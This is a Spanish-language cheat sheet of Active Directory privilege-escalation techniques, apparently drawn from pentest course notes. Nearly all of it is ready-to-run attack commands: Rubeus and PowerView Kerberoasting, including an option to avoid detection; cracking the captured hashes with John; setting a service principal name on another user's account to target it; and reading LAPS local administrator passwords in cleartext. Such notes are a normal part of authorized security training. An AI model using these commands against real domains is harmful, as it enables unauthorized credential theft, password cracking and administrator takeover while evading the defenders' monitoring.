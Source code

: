 # Privilege Escalation

Kerberos

Los clientes necesitan obtener tickets del KDC (Key Distribution Center) el cual corre como un servicio en el controlador del dominio. Estos tickets representan las credenciales de los clientes.

Priv.Esc. Kerberoast:

-Brute-Force passwords

-Ticket-Granting Service (TGS) tiene una porcion del servidor el cual esta encriptado con la contraseña del servicio de la cuenta. Esto hace posible pedir un ticket y hacer offline brute-force.

-Comands:

AD: `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`

`Set-ADUser -Identity *-ServicePrincipalNames @{Add='**'} -Verbose`

PowerView: `Get-DomainUser –SPN`

Rubeus: ejecutar desde cmd (NO PS)

-List: 

-Stats: `Rubeus.exe kerberoast /stats`

-Request TGS: `Rubeus.exe kerberoast /user:<username> /simple`

-Avoid detections: `Rubeus.exe kerberoast /stats /rc4opsec`

-All acounts: `Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt`

-Crack ticket with john: 

`john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worstpass.txt C:\AD\Tools\hashes.txt`

**Privilege Escalation - Targeted Kerberoasting - Set SPN**

Vemos si el usuario tiene SPN:

PowerView:  `Get-DomainUser -Identity support1user | select serviceprincipalname`

AD: `Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName`

Seteamos SPN para el usuario (solo en el dominio):

PowerView:  `Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}`

AD: `Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}`

kerberoast el usuario y lo crackeas.

**Privilege Escalation - LAPS**

Si LAPS (Local Administrator Passwords Solution) está en uso la encontraremos en la ruta: C:\Program Files\LAPS\CSE\admpwd.dll

Para buscar usuarios que puedan leer la contraseña filtrando por "ms-Mcs-AdmPwd": 

PowerView:

`Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($*.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($*.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $*.SecurityIdentifier);$*}`

Para enumerar las OUs donde LAPS está en uso junto con los usuarios que pueden leer el contraseñas en texto no cifrado:

AD Module: `Get-LapsPermissions.ps1`

LAPS Module: `Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1` && `Find-AdmPwdExtendedRights -Identity OUDistinguishedName`

Priv. Esc. LAPS Abuse

Una vez que comprometemos al usuario que tiene los derechos, utilice lo siguiente para leer la contraseña de texto no cifrado:

PowerView: `Get-ADObject -SamAccountName  | select -ExpandProperty ms-mcs-admpwd`

AD: `Get-ADComputer -Identity <targetmachine> -Properties msmcs-admpwd | select -ExpandProperty ms-mcs-admpwd`

LAPS module: `Get-AdmPwdPassword -ComputerName <targetmachine>`